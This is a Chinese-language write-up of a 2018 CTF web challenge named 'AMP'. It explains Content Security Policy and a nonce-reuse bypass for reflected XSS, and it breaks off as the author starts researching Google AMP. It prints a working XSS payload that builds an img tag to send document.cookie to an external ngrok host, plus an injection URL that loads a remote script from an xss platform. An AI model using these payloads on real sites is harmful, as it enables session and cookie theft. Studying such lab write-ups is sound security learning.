

恰巧这一次的CTF还真没有关注，比赛完了之后，无意间看到了相关的writeup，大致浏览了下，觉得好像还是有点意思的，于是便趁着比赛环境还在，自己玩了玩。
打开题目地址http://amp.2018.teamrois.cn，可以看到以下这个页面，提示输入name作为请求参数。

试着输入http://amp.2018.teamrois.cn/?name=123，传入name参数，可以看到以下返回。
可以看到将我们传入的name参数输出到了页面，并且提示说我被攻击，还有一个“STOP TRACKING ME”的按钮，我们点击按钮，先开始一直没有反应，后面发现它使用了谷歌的recaptcha验证码
我们通过验证之后，得到
显示已经记录下了我们的request，并且联系了admin。
到这一步，就想到了CTF惯用套路。查看网络请求，果然在cookie中找到了提示信息：”flag_is_in_admin_cookie”。
综合以上信息：name参数会在页面输出；request会记录并发送给admin；flag_is_in_admin_cookie 。想当然的就以为是xss，所以接下来就开始测试name参数，http://amp.2018.teamrois.cn/?name=<script>alert('xss')</script>发现并没有弹窗，打开调试看一下
可见，其使用了内容安全策略（CSP）。
Content Security Policy（CSP）内容安全策略，是一个附加的安全层，有助于检测并缓解某些类型的攻击，包括跨站脚本（XSS）和数据注入攻击。通过定义一个名为Content-Security-Policy 的header来让浏览器仅载入可信域的资源文件，限制使用内联脚本，禁止页面中使用<script>标签，控制ajax请求域等等。
攻击者想要窃取数据，用户浏览器就必须和攻击者的某个地址进行通信，否则攻击者就没有办法接收到最终窃取到的信息结果，而CSP可以用来定义哪些域是被信任的，如果攻击者设定的域不属于被设定的信任域，那么信息就没有办法被偷出去。这样就起到了防御XSS的效果（如果想更深层次的了解CSP，可自行百度）。
此处的CSP设置了一个script-src值，该属性开启将对当前页面上可执行的JS源进行了限制。
从页面源代码可以看到，每一个引用的javascript代码（script标签）都有一个nonce字段，其value值是服务器端动态的生成字符串，只有包含nonce字段并且字符串值与服务端相等的script块才可以被执行。从上图中可以看出该实例中，nonce值固定不变。
我们下来就尝试绕过。
针对nonce的绕过，我们一般是利用页面上xss可利用点之后较近的js引用中的nonce字段值。举例来说就是：
对于以下代码
`
xss插入点
`
我们可以在xss插入点，输入以下内容：
<script src="http://xxx.xxx.xxx.xxx/test.js" a="
此时，页面就变为：
`
<script src=”http://xxx.xxx.xxx.xxx/test.js" a=”
此时，我们可控的xss插入点已经包含了nonce字段值，进而绕过了CSP。
在本题中，我们使用xss平台构造，其中的自定义代码如下：var img = document.createElement(‘img’);
img.src = ‘http://ec492eb4.ngrok.io/flag='+encodeURIComponent(document.cookie);`
创建一个img标签，在标签的src中将cookie值作为flag参数值，来访问本地的ngrox。
我们构造的xss利用代码为：
http://amp.2018.teamrois.cn/?name=<script src=”https://xsspt.com/Ov7T0a?15283" a=”
访问上述链接，发现并没有自己想的那么简单，获得到的仍然是提示，并不是真正的flag值。
到这里，能想到的思路都试验了。回过头来发现这道题的题目是AMP,所以重新从AMP下手。
了解到：谷歌AMP（Accelerated Mobile Pages，加速移动页面）是Google推出法人一种为静态内容构建 web 页面，提供可靠和快速的渲染，加快页面加载的时间，特别是在移动 Web 端查看内容的时间。也就是说，只要网页遵循我制定的一些规则，你的页面加载速度会更快，据说会有15% ~ 85%的性能提升。
AMP HTML 完全是基于现有 web 技术构建的，通过限制一些 HTML，CSS 和 JavaScript 部分来提供可靠的性能。这些限制是通过 AMP HTML 一个验证器强制执行的。为了弥补这些限制，AMP HTML 定义了一系列超出基础 HTML 的自定义元素来丰富内容。
访问AMP官网https://www.ampproject.org/zh_cn/